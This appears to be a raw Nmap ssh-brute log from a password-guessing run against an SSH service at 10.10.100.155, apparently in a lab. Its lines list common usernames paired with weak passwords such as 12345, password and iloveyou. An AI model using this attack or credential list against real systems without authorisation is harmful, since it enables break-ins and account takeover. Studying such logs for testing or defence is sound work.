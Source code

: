 NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: sysadmin:12345
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: netadmin:12345
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: guest:12345
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: user:12345
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: web:12345
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: test:12345
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: root:123456789
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: admin:123456789
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: administrator:123456789
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: webadmin:123456789
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: sysadmin:123456789
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: netadmin:123456789
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: guest:123456789
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: user:123456789
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: web:123456789
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: test:123456789
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: root:password
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: admin:password
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: administrator:password
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: webadmin:password
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: sysadmin:password
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: netadmin:password
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: guest:password
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: user:password
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: web:password
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: test:password
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: root:iloveyou
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: admin:iloveyou
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: administrator:iloveyou
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: webadmin:iloveyou
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: sysadmin:iloveyou
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: netadmin:iloveyou
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: guest:iloveyou
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: user:iloveyou
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: web:iloveyou
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: test:iloveyou
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: root:princess
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: admin:princess
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: administrator:princess
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: webadmin:princess
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: sysadmin:princess
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: netadmin:princess
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: guest:princess
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: user:princess
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: web:princess
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: test:princess
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: root:12345678
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: admin:12345678
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: administrator:12345678
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: webadmin:12345678
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: sysadmin:12345678
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: netadmin:12345678
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: guest:12345678
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: user:12345678
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: web:12345678
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: test:12345678
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: root:1234567
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: admin:1234567
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: administrator:1234567
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: webadmin:1234567
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: sysadmin:1234567
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: netadmin:1234567
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: guest:1234567
NSE: [ssh-brute 10.10.100.155:22] Trying username/password pair: user:1234567